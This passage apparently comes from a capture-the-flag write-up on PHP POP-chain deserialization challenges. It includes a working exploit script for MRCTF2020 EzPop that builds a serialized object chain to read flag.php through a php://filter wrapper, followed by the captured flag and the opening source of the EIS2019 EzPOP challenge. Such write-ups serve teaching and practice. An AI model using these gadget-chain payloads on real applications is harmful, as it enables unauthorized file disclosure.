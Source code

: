 exploit code:
```php
<?php

class Modifier {
    protected $var = 'php://filter/convert.base64-encode/resource=flag.php';
}


class Test{
    public $p;
    public function __construct(){
        $this->p = new Modifier();
    }
}

class Show{
    public $source;
    public $str;

}
$a = new Show();
$a -> source = new Show();
$a -> source -> str = new Test();

echo urlencode(serialize($a));
?>
```

![send payload](popChain/mrctf2020/EzPop/send_payload.png)
_send payload_ 

![flag.php](popChain/mrctf2020/EzPop/flag_php.png)
_flag.php_

> flag{9f937575-162d-4d4b-8030-c8859c08ac19}
{: .prompt-info  } 

___

## 2. EzPOP - EIS2019

### _Link challenge_
<https://buuoj.cn/challenges#[EIS%202019]EzPOP>

### _Source_

```php
<?php
error_reporting(0);

class A {

    protected $store;

    protected $key;

    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }
```